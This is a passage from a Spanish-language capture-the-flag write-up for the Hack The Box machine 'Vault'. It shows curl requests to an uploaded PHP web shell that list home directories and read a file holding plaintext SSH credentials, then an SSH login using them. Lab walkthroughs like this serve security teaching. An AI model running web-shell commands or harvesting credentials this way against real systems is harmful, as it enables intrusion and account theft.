     ┌──(root㉿kali)-[/home/nico/htb/vault]
    └─# curl -X GET http://10.10.10.109/sparklays/design/uploads/shell.php5?cmd=ls+-lah+/home
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>total 16K
    drwxr-xr-x  4 root root 4.0K Jun  2  2021 .
    drwxr-xr-x 24 root root 4.0K Dec  2  2021 ..
    drwxr-xr-x 19 alex alex 4.0K Jun  2  2021 alex
    drwxr-xr-x 18 dave dave 4.0K Jun  2  2021 dave
    </pre>

<br/>

    ┌──(root㉿kali)-[/home/nico/htb/vault]
    └─# curl -X GET http://10.10.10.109/sparklays/design/uploads/shell.php5?cmd=ls+-lah+/home/dave/Desktop
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>total 20K
    drwxr-xr-x  2 dave dave 4.0K Jun  2  2021 .
    drwxr-xr-x 18 dave dave 4.0K Jun  2  2021 ..
    -rw-rw-r--  1 alex alex   74 Jul 17  2018 Servers
    -rw-rw-r--  1 alex alex   14 Jul 17  2018 key
    -rw-rw-r--  1 alex alex   20 Jul 17  2018 ssh
    </pre>

<br/>

    ┌──(root㉿kali)-[/home/nico/htb/vault]
    └─# curl -X GET http://10.10.10.109/sparklays/design/uploads/shell.php5?cmd=cat+/home/dave/Desktop/ssh
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>dave
    Dav3therav3123
    </pre>

Parece que he conseguido unas credenciales para acceder al servidor mediante SSH.<br/>

SSH
------

Accedo con las siguientes credenciales a través de SSH dave:Dav3therav3123. Entrando al directorio 'Desktop', observo tres ficheros interesantes. El fichero 'ssh' que ya se vio su contenido en la sección anterior y los otros dos ficheros, 'key' y 'Servers' cuyo contenido se puede ver a continuación.<br/>

    ┌──(root㉿kali)-[/home/nico/htb/vault]
    └─# ssh dave@10.10.10.109                                                                             
    dave@10.10.10.109's password: 
    Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

    222 packages can be updated.
    47 updates are security updates.
